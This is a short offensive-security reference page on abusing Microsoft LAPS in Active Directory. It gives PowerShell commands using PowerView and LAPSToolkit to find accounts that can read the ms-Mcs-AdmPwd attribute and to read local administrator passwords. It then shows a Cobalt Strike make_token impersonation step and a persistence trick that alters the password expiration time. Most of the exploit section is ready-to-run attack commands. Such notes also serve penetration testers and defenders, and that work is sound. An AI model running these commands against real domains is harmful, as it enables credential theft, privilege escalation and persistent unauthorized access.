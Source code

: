 # Local Administrator Password Solution
---

## Vulnerability

Local Administrator Password Solution (LAPS) allow to automatically manage local administrators' password by the domain. To do so, the property *ms-Mcs-AdmPwd* is added for each domain computer in the domain schema. This property contains the local administrator's password. Depending on how is configured LAPS, you could read this attribute and escalate your privileges locally on domain computers.

## Prerequisites

* [LAPS](/ad/enumeration/#laps) is enforced on at least a domain computer. 

## Exploit

[LAPSToolKit](https://github.com/leoloobeek/LAPSToolkit) is a wrapper around [PowerView](https://github.com/PowerShellMafia/PowerSploit/), so it must be imported first.

```powershell
Import-Module .\PowerView.ps1
Import-Module .\LAPSToolKit.ps1

# Find groups with delegated read access to OU.
Find-LAPSDelegatedGroups

# Find users that have AllExtendedRights on computers so they can read ms-Mcs-AdmPwd attribute.
Find-AdmPwdExtendedRights

# To read the ms-Mcs-AdmPwd attribute of a computer.
Get-DomainComputer -Identity $hostname -Properties ms-Mcs-AdmPwd

# You can now impersonate the local administrator of the target host.
# With Cobalt Strike, do following command.
make_token .\LapsAdmin $msMcsAdmPwd
```

## Persistence

If you reached this point, you are local administrator of at least a domain computer. To persist on the domain, you can leverage the password expiration date configuration if *PwdExpirationProtectionEnabled* is disabled.

```powershell
# Get the password expiration time
Get-DomainComputer -Identity $hostname -Properties ms-Mcs-AdmPwdExpirationTime

# Set the new password expiration time
Set-DomainObject -Identity $hostname -Set @{'ms-Mcs-AdmPwdExpirationTime' = '$timestamp'} -Verbose
```

## Useful links

* [EpochConverter](https://www.epochconverter.com/ldap) to convert LDAP timestamps to human-readable date.